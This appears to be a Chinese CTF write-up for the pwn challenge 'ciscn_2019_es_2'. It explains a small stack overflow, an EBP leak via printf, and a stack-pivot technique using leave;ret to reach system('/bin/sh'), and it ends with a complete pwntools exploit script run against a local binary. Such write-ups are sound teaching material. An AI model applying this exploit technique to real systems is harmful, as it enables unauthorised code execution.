






## 0x001 程序分析

程序的主要部分位于vul函数中，直接进入该函数分析



这里有两个read输入，两个printf输出，其中接收输入的长度为0x30，**s** 的长度为0x28，没有其他信息。

程序中还有一个hack函数



调用了system函数，程序中没有提供 "/bin/sh" 字符串。

## 0x002 漏洞分析

由于 **s** 的长度为0x28，可接受输入的长度为0x30，因此会造成数组越界，也就是栈溢出，但是这个栈溢出，由于输入的长度有限，仅仅只能覆盖到返回地址，无法给调用的函数传递参数。

## 0x003 漏洞利用

根据漏洞分析，由于输入的长度有限，可以控制返回地址，但是无法给执行的函数传递参数，因此需要使用 **栈迁移** 来解决空间不足的问题。

栈迁移就是通过利用一系列的 **leave;ret** 指令，最终控制 **EIP**。

在该程序中，第一个输入输出，可以泄漏 **EBP**，由于printf的结束符为 "\x00"，因此需要构造如下指令泄漏 **EBP** 地址。**s** 距离EBP为0x28，因此输入0x28个字符后，就会将EBP一起打印出来。（这里只需要输入0x27个字符，因为在使用sendline时，会自动在末尾添加"\x0a"，正好0x28个，如果使用send，那么就需要输入0x28个字符）

```
payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))
```

通过gdb调试，可以知道泄漏出来的 **EBP** 距离 **s** 的距离为0x38。有了EBP之后，就需要来构造栈空间了。

通过第二次输入，构造的栈空间如下：
```
payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
```

下面是详细分析图：





也就是在vul函数中的末尾执行leave时，会将我们构造好的EBP赋值给ESP，然后将新ESP的内容赋值给EBP，也就是通过修改EBP，重新规划了一块栈空间。在之后的返回地址处，使程序返回到程序中的其他 **leave;ret** 指令处。





由上图指令执行前后对比可以看到，从vul函数返回后，已经进入了我们规划好的栈空间中了，再通过 **leave;ret** 指令调整ESP的值，即可将返回地址定位到 **system** 函数，后面也有足够的空间存放返回地址和参数，即可成功获取系统权限。

最终EXP如下：
```
from pwn import *

p = process("./ciscn_2019_es_2")

payload = b'A' * 0x20 + b'B' * 7
p.sendline(payload)
p.recvuntil(b"BBBBBBB\n")
ebp_addr = u32(p.recv(4))

payload = b'A'*4 + p32(0x08048400) + b'A'*4 + p32(ebp_addr-0x28) + b"/bin/sh\x00" + b"A" * 16 + p32(ebp_addr-0x38) + p32(0x08048562)
p.sendline(payload)

p.interactive()
```